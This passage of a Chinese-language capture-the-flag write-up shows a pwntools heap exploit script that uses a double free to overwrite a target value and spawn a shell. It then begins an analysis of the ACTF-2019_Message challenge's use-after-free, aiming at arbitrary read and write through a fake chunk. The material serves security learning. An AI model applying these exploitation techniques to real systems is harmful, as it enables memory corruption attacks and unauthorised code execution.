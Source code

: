 ```python


def kingdom(content: int):
    sh.recvuntil(b"choice > ")
    sh.sendline(b"5")
    sh.recvuntil(b"Which kingdom?\n")
    sh.sendline(str(content).encode())
    sh.recvuntil(b"Moved.\n")


def pwn():
    sh.recvuntil(b"choice > ")
    sh.sendline(b"6")
    sh.interactive()


add()  # 0
add()  # 1

delete(0)
delete(1)
delete(0)

add()  # 2
lair_chunk = lair() - 0x08
kingdom(0x20)
edit(2, str(lair_chunk).encode())
add()  # 3
add()  # 4
add()  # 5
edit(5, str(0xdeadbeef).encode())
pwn()

# gdb.attach(sh, 'b puts')
# sh.interactive()

```

## ACTF-2019_Message

稍微复杂一点。保护除了 ASLR 是全开的。

观察可以发现漏洞

在`delete`时程序释放时没有对指针进行置零，只对 size 位置零

![image-20220321160539186](https://oss.nova.gal/img/image-20220321160539186.png)

根据`show`和`edit`函数，我们如果能修改`array[4 * idx + 2]`的内容，那么也就可以做到任意地址读写。

也就是说，关键就在于如何在`array`上制造一个`fake chunk`
